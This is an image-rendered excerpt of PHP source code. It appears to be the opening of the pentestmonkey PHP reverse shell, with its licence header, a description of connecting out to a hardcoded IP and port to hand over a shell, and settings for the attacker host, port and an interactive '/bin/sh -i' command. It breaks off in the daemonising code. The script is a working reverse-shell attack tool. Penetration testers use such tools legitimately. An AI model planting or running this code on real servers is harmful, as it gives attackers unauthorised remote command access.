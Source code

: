    ```php
   // published by the Free Software Foundation.
   //
   // This program is distributed in the hope that it will be useful,
   // but WITHOUT ANY WARRANTY; without even the implied warranty of
   // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   // GNU General Public License for more details.
   //
   // You should have received a copy of the GNU General Public License along
   // with this program; if not, write to the Free Software Foundation, Inc.,
   // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
   //
   // This tool may be used for legal purposes only.  Users take full responsibility
   // for any actions performed using this tool.  If these terms are not acceptable to
   // you, then do not use this tool.
   //
   // You are encouraged to send comments, improvements or suggestions to
   // me at pentestmonkey@pentestmonkey.net
   //
   // Description
   // -----------
   // This script will make an outbound TCP connection to a hardcoded IP and port.
   // The recipient will be given a shell running as the current user (apache normally).
   //
   // Limitations
   // -----------
   // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
   // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
   // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
   //
   // Usage
   // -----
   // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
   
   set_time_limit (0);
   $VERSION = "1.0";
   $ip = '172.16.66.134';  // CHANGE THIS
   $port = 4444;       // CHANGE THIS
   $chunk_size = 1400;
   $write_a = null;
   $error_a = null;
   $shell = 'uname -a; w; id; /bin/sh -i';
   $daemon = 0;
   $debug = 0;
   
   //
   // Daemonise ourself if possible to avoid zombies later
   //
   
   // pcntl_fork is hardly ever available, but will allow us to daemonise
   // our php process and avoid zombies.  Worth a try...
   if (function_exists('pcntl_fork')) {
       // Fork and have the parent process exit
       $pid = pcntl_fork();
   
       if ($pid == -1) {
           printit("ERROR: Can't fork");
           exit(1);
       }
   
       if ($pid) {
           exit(0);  // Parent exits
   ```